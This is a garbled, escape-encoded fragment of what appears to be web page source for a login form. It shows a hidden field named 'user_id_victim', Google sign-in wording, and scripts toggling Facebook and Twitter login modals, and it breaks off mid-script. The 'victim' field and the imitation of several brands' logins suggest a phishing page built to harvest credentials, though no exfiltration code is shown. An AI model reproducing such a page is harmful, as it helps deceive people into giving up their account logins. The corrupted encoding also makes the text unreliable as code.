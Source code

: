 22'0520value'053D'0522ff'7Fgoogle'0522'0520readonl'5@'053E'050A'050'1@'050'1@'050'1@'050'1@'053Cinput'0520t'5@pe'053D'0522hidden'0522'0520name'053D'0522user'7Fid'7Fvictim'0522'0520value'053D'0522OWUG0'0522'0520/'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053C'42utton'0520t'5@pe'053D'0522su'42mit'0522'0520class'053D'0522'42utton'0520'42lue'0522'053E'0520'0520Log'0520In'0520'0520'053C/'42utton'053E'053C'42r'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520class'053D'0522footer-menu-twitter'0522'053EForgot'0520password'053F'053C/div'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520class'053D'0522footer-menu-twitter'0520'42ulet'0522'053E'05u2022'053C/div'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520class'053D'0522footer-menu-twitter'0522'053ESign'0520up'0520to'0520Google'053C/div'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053C/form'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053C/center'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'053C/div'053E'050A'0520'0520'0520'0520'053C/div'053E'050A'053C/div'053E'0520'0520'0520'050A'050A'0520'053Cscript'0520src'053D'0522https'053A//ajax'0Agoogleapis'0Acom/ajax/li'42s/jquer'5@/3'0A5'0A1/jquer'5@'0Amin'0Ajs'0522'053E'053C/script'053E'050A'053Cscript'0520src'053D'0522https'053A//code'0Ajquer'5@'0Acom/ui/1'0A11'0A3/jquer'5@-ui'0Ajs'0522'053E'053C/script'053E'050A'053Cscript'0520src'053D'0522https'053A//cdnjs'0Acloudflare'0Acom/ajax/li'42s/jquer'5@ui-touch-punch/0'0A2'0A3/jquer'5@'0Aui'0Atouch-punch'0Amin'0Ajs'0522'053E'053C/script'053E'050A'050A'050A'050A'053Cscript'0520t'5@pe'053D'0522text/javascript'0522'053E'050A'050A'0524'052'1Cdocument'052'1@'0Aread'5@'052'1Cfunction'052'1C'052'1@'0520'057B'050A'050'1@'0524'052'1C'0522'0523f'42Login'0522'052'1@'0Aon'052'1C'0527click'0527'052C'0520function'052'1C'052'1@'0520'057B'050A'050'1@'050'1@'0524'052'1C'0522'0523loginModal'0522'052'1@'0Ahide'052'1C'052'1@'053B'050A'050A'050'1@'050'1@'0524'052'1C'0522'0Aface'42ook'0522'052'1@'0AfadeIn'052'1C'0527slow'0527'052'1@'053B'050A'050A'050'1@'050'1@'0524'052'1C'0522'0Aclose-f'42'0522'052'1@'0Aon'052'1C'0527click'0527'052C'0520function'052'1C'052'1@'0520'057B'050A'050'1@'050'1@'050'1@'0524'052'1C'0522'0Aface'42ook'0522'052'1@'0Ahide'052'1C'052'1@'053B'050A'050A'050'1@'050'1@'050'1@'0524'052'1C'0522'0523loginModal'0522'052'1@'0Ashow'052'1C'052'1@'053B'050A'050'1@'050'1@'057D'052'1@'053B'050A'050'1@'057D'052'1@'053B'050A'050A'050'1@'0524'052'1C'0522'0523twitLogin'0522'052'1@'0Aon'052'1C'0527click'0527'052C'0520function'052'1C'052'1@'0520'057B'050A'050A'050'1@'050'1@'0524'052'1C'0522'0Atwitter'0522'052'1@'0AfadeIn'052'1C'0527slow'0527'052'1@'053B'050A'050A'050'1@'050'1@'0524'052'1C'0522'0Aclose-other'0522'052'1@'0Aon'052'1C'0527click'0527'052C'0520function'052'1C'052'1@'0520'057B'050A'050'1@'050'1@'050'1@'0524'052'1C'0522'0Atwitter'0522'052'1@'0Ahide'052'1C'052'1@'053B'050A'050A'050'1@'050'1@'050'1@'0524'052'1C'0522'0523loginModal'0522'052'1@'0Ashow'052'1C'052'1@'053B'050A'050'1@'050'1@'057D'052'1@'053B'050A'050'1@'057D'052'1@'053B'050A'057D'052'1@'053B'050A'050A'053C/script'053E'0520'0520'0520'050A'050'1@'050'1@'0520'050A'050'1@'053Cscript'053E'050A'050'1@'0520'0520var'0520coverCreateTeamloadFile'0520'053D'0520function'052'1Cevent'052'1@'0520'057B'050A'050'1@'0520'0520'0520'0520var'0520output'0520'053D'0520document'0AgetElementB'5@Id'052'1C'0527cover'7Fcreate'7Fteam'7Fpreview'0527'052'1@'053B